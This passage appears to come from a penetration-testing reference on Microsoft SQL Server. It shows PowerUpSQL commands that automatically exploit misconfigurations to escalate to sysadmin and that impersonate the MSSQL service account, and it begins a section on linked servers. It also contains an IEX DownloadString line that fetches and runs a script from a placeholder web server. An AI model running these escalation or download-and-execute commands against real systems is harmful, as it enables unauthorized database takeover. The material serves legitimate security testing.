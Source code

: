 The `Invoke-SQLEscalatePriv` cmdlet will call the `Invoke-SQLAudit` cmdlet
with the `-Exploit` flag to detect and automatically exploit the following
misconfigurations / vulnerabilities in order to escalate to the `sysadmin`
role:
  - `IMPERSONATE` permission
  - `TRUSTWORTHY` database `db_owner`
  - `CREATE PROCEDURE` permission

The cmdlets will moreover conduct various other checks: availability of the
stored procedures `xpdirtree` and `xp_fileexist` for the specified user,
configuration of server database links, etc.

```bash
# Install-Module -Name PowerUpSQL
# IEX(New-Object System.Net.WebClient).DownloadString("https://<WEBSERVER_IP>:<WEBSERVER_PORT>/PowerUpSQL.ps1")

Invoke-SQLAudit -Instance <HOSTNAME | IP>\<INSTANCE> -Username <USERNAME> -Password <PASSWORD> -Exploit
Invoke-SQLAudit -Instance <HOSTNAME | IP>\<INSTANCE> -Credential <PSCredential> -Exploit
```

###### Windows local administrator privileges to SQL Server `sysadmin`

Among other techniques, such as dumping the LSA secrets, the impersonation of
an MSSQL service account can be used to access an MSSQL service as `sysadmin`
after obtaining local administrator privileges on a Windows host.

`PowerUpSQL`'s `Invoke-SQLImpersonateService` can be used to conduct the
impersonation in order to run futher `PowerUpSQL` as `sysadmin`:

```bash
# IEX(New-Object System.Net.WebClient).DownloadString("https://<WEBSERVER_IP>:<WEBSERVER_PORT>/PowerUpSQL.ps1")

Invoke-SQLImpersonateService -Verbose -Instance <HOSTNAME | IP>\<INSTANCE>

Get-SQLServerInfo -Verbose -Instance <HOSTNAME | IP>\<INSTANCE>
# CurrentLogin           : NT Service\MSSQL$<INSTANCE>
```  

### Linked servers

###### Overview

The linked server mechanism allows for access to others `Object Linking and
Embedding, Database (OLE DB)` data sources outside of the present MSSQL
instance. The mechanism can be used at the database level to connect to and
query a variety of data stores including, but not limited to:
 - SQL Servers
 - Oracle Servers
 - Text Files
 - Excel Files
